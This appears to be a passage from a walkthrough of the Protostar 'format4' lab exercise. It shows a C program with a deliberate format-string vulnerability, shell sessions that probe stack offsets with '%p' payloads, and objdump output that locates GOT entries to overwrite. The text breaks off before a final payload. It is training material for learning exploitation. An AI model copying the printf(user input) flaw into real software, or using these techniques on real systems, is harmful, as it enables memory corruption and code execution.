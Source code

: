 void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ ruby -e 'print "DDDD" + " %p" * 25' | /opt/protostar/bin/format4
DDDD 0x200 0xb7fd8420 0xbffff5b4 0x44444444 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x702520 0x1000 0x1

user@protostar:~$ ruby -e 'print "DDDD %4\$p"' | /opt/protostar/bin/format4
DDDD 0x44444444

user@protostar:~$ objdump -TR /opt/protostar/bin/format4

/opt/protostar/bin/format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   fgets
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000      DF *UND*	00000000  GLIBC_2.0   exit
080485ec g    DO .rodata	00000004  Base        _IO_stdin_used
08049730 g    DO .bss	00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit


user@protostar:~$ objdump -d -j .plt /opt/protostar/bin/format4 
